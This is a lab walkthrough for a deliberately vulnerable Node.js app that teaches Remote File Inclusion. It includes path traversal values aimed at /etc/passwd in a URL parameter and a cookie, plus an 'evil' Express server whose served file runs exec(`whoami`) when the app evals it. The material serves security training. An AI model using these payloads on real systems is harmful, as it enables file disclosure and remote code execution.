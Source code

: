 # KBID 173 - Remote File Inclusion

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

![](../../.gitbook/assets/nodejs/RFI/1.png)

![](../../.gitbook/assets/nodejs/RFI/2.png)

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

![](../../.gitbook/assets/nodejs/RFI/3.png)

Creating your own webserver: In this case you can use nodeJs express to create a small webserver that serves your file. We name it evil_server.js

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.sendFile(__dirname + "/evil.txt");
});

const port = process.env.PORT || 1337;

app.listen(port, "0.0.0.0", () => console.log(`Listening on port ${port}...!!!`));
```

Install dependencies:

```
$ npm install express
```

Then we create a file evil.txt and put the content below

```javascript
exec(`whoami`);
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ node evil_server.js
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

![](../../.gitbook/assets/nodejs/RFI/4.png)

Success! As we observed, we can include our own files through RFI.

## Additional sources

{% embed url="https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion" %}
